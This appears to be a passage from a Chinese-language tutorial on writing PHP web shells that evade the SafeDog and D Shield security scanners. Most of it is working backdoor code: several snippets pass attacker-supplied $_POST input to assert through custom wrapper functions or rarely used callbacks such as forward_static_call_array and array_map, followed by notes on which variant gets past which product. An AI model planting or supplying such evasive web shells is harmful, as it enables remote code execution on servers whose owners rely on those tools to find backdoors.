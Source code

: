 其他函数类似 不一一列举了

定义一个函数把关键词分割达到 bypass 效果

```
<?php 
function kdog($a){
    $a($_POST['x']);
}
kdog(assert);
?>
```

反之

```
<?php 
function kdog($a){
    assert($a);
}
kdog($_POST[x]);
?>
```

效果一样，这种绕过方法，对安全狗还是比较有效的 在 d 盾面前就显得小儿科了 ，不过后面会讲到如何用定义函数的方法来 绕过 d 盾

```
call_user_func_array()
call_user_func()
array_filter() 
array_walk()  
array_map()
registregister_shutdown_function()
register_tick_function()
filter_var() 
filter_var_array() 
uasort() 
uksort() 
array_reduce()
array_walk() 
array_walk_recursive()
```

回调函数大部分已经被安全软件加入全家桶套餐 所以找到一个生僻的不常用的回调函数来执行 比如

```
<?php 
forward_static_call_array(assert,array($_POST[x]));
?>
```

这个函数能过狗，但是 D 盾显示是一级

前面说过众多回调函数已经被加入豪华套餐了，怎么绕过呢，其实也很简单 那就是定义个函数 或者类来调用

定义一个函数

```
<?php
function test($a,$b){
    array_map($a,$b);
}
test(assert,array($_POST['x']));
?>
```
